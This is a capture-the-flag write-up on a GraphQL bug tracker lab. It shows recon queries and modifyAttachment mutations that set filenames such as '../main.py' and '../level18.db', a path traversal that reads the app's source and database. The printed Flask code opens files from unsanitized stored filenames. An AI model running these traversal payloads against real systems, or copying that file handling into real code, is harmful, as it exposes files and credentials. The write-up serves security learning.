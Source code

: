# BugDB v3



This is a cool CTF that illustrates how GraphQL can be used for arbitary file reading. 

Essentially the main vulnerability here is that the API does not restrict users from accessing file systems outside what they actually need - which is what will allow us to read senstive data from the database!!!

## Recon

### query

By referencing the schema (pro-tip: graphQL auto-complete is a lifesaver!) we are able to get a gerneral idea of how the data is structured:

```graphql
query{
  user{
    edges{
      node{
        id
        username
        bugs{
          edges{
            node{
              id
              private
              reporterId
              attachments{
                edges{
                  node{
                    id
                    bugId
                    filename
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

![](./imgs/query.jpg)



Important things to note are that their are 2 users, they have uploaded attachments, and these attachments have an ID.



### ### Mutations

By making a quick mutation to attach a file we can see that it is easy to add infomation to the bugs that have been submitted by Admin and User:

```graphql
mutation{
  attachFile(bugId:1, contents:"test"){
    ok
  }
}
```

![](./imgs/attachFile.jpg)

And make a query again, will see a new attachment is available.

![](./imgs/attachment.jpg)

So what good is this to us? Well if you navigate to the attachment via a path in the URL then we can see the data we submitted appears... very cool and very dangerous! 

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/content.jpg)

### modifyAttachment

So if we can add any data we want what happens if we modify the data we write to attempt a path traversal?

```graphql
mutation{
  modifyAttachment(id:1, filename:"../main.py"){
    ok
  }
}
```

![](./imgs/modifyAttachment.jpg)



![](./imgs/filename.jpg)

Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/main.jpg)



We get the whole [main.py](./main.py) file!!!!!

```python
from flask import Flask, abort, redirect, request, Response 
from flask_graphql import GraphQLView 
from model import db_session, Attachment 
from schema import schema 

app = Flask(__name__) 

@app.route('/') 
def main(): 
  return 'GraphiQL' 

@app.route('/attachment/')
@app.route('/attachments/') 
def attachment(id): 
  attachment = Attachment.query.filter_by(id=id).first() 
  return file('attachments/%s' % attachment.filename, 'r').read() 

app.add_url_rule('/graphql', view_func=GraphQLView.as_view('graphql', schema=schema, graphiql=True, context={'session': db_session})) 

if __name__ == "__main__": 
  app.run(host='0.0.0.0', port=80) 
```

### Read model

So at the top we can see this app is importing `db_session` from `model`... which is definitely worth us taking a look at.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../model.py"){
    ok
  }
}
```

Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/model.jpg)

Now we have the [model.py](./model.py) file.

```python
from sqlalchemy import create_engine 
from sqlalchemy.ext.declarative import declarative_base 
from sqlalchemy.orm import relationship, scoped_session, sessionmaker 
from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String 

engine = create_engine('sqlite:///level18.db', convert_unicode=True) 
db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) 
Base = declarative_base() 
Base.query = db_session.query_property() 

class User(Base): 
  __tablename__ = 'users' 
  id = Column(Integer, primary_key=True) 
  username = Column(String(255)) 
  password = Column(String(255)) 
  bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') 

class Bug(Base): 
  __tablename__ = 'bugs' 
  id = Column(Integer, primary_key=True) 
  reporter_id = Column(Integer, ForeignKey('users.id')) 
  reporter = relationship(User, primaryjoin=reporter_id == User.id) 
  text = Column(Text(65536)) private = Column(Boolean()) 
  attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') 

class Attachment(Base): 
  __tablename__ = 'attachments' 
  id = Column(Integer, primary_key=True) 
  bug_id = Column(Integer, ForeignKey('bugs.id')) 
  bug = relationship(Bug, primaryjoin=bug_id == Bug.id) 
  filename = Column(String(255))
```

Now we see that `engine` is set to `sqlite:///level18.db`which looks realllllly interesting. So if we try to read this using the same path traversal.....

```graphql
mutation{
  modifyAttachment(id:1, filename:"../level18.db"){
    ok
  }
}
```

.... we get the FLAG!!!!

![](./imgs/flag.jpg)